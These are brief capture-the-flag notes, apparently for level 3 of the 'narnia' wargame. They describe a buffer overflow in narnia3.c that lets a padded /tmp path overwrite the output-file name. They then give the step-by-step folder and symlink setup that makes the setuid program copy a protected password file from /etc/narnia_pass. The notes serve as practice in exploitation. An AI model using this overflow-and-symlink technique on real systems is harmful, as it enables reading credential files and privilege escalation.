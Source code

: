 cd /narnia
cat narnia3.c
buffer overflow when copying buf into ifile, overflowing into ofile
ending substring of input file path must be output file path
/tmp/[folder]/[padding]/tmp/[folder]/[filename] must be input file path

create folder /tmp/hn3
create output file /tmp/hn3/o.txt
create input folder (padding). Experimentally derived "aaaaaaaaaaaaaaaaaaaaaaa"
create folder /tmp/hn3/aaaaaaaaaaaaaaaaaaaaaaa/tmp/hn3
create symlink in this folder (ln -s /etc/narnia_pass/narnia3 /tmp/hn3/aaaaaaaaaaaaaaaaaaaaaaa/tmp/hn3/o.txt)
in narnia folder run:
./narnia3 /tmp/hn3/aaaaaaaaaaaaaaaaaaaaaaa/tmp/hn3/o.txt

